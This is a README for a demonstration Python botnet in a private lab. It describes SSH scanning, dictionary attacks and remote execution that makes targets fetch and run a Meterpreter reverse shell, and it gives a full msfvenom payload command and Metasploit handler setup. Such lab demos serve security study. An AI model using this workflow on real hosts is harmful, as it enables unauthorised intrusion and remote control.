 # simple_bot:
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network. If it finds a node with ssh<br>
service. It then performs a dictionary attack. If successful, RCE directs<br>
target to download a meterpreter reverse shell payload & execute it.<br>
Multiprocessing allows for multiple targets to connect to our handler<br>
at once.<br>
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create Web Server: <h4>192.168.203.1/evil_file</h4>
3. Create 4 target VMs. All with ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150&nbsp;&nbsp;user: fresh1 &nbsp;pass: fresh1<br>
&nbsp;&nbsp;&nbsp;192.168.203.151&nbsp;&nbsp;user: fresh2 &nbsp;pass: fresh2<br>
&nbsp;&nbsp;&nbsp;192.168.203.152&nbsp;&nbsp;user: fresh3 &nbsp;pass: fresh3<br>
&nbsp;&nbsp;&nbsp;192.168.203.153&nbsp;&nbsp;user: fresh4 &nbsp;pass: fresh4<br>
<br>
4. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. Run scan_drop.py <h4>Scan, Dictionary Attack, RCE. </h4>

